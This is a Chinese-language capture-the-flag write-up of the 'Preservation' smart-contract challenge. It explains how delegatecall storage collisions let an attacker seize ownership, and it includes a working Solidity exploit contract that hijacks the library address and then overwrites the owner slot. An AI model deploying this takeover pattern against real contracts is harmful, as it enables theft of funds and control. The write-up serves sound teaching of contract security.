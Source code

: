 # 第十六关：Preservation

### 本关知识点：
```
1. delegatecall调用
2. 合约变量的存储
3. uint256和address的类型转换
```

## 1. 题目要求
` 尝试取得合约的所有权（`owner`）。`

## 2. 代码功能解读

![[2023-05-21_201052.png]]

## 3. 漏洞分析
```
通过delegatecall更改调用者合约的参数。
	1. uint的大小是256位，address的大小是160位，我们把address伪装为uint，然后传入setFirstTime方法，将timeZone1Library变量设置为自己的地址。
	2. 在攻击合约中将"setTime(uint256)"方法设置为修改第四个槽位的值为玩家的地址。
```

## 4. 攻击方法
``` java
contract Exploit {

  Preservation pres;

  address solt1;

  address solt2;

  // uint256 solt3;

  constructor(address addr) {

    pres = Preservation(addr);

  }

  

  function attack()public {

    uint256 time = uint256(uint160(address(this)));

    pres.setFirstTime(time);

    require(pres.timeZone1Library() == address(this), "error attack");

    uint256 owner = uint256(uint160(address(msg.sender)));

    pres.setFirstTime(owner);

    require(pres.owner() == msg.sender, "error owner");

  }

    function setTime(uint _player) public {

    solt2 = address(uint160(_player));

  }

}
```

## 5. 攻击调用图
![[Pasted image 20230521204944.png]]
![[Pasted image 20230521205124.png]]


## 6. 知识点分析
在编写智能合约的时候，一定要对自己调用的方法有了解，特别是delegatecall这种不会切换上下文环境的方法，一定要仔细，方式覆盖状态变量。

如果对大家有用，请点赞；如果喜欢，请订阅加点赞，会一直更新~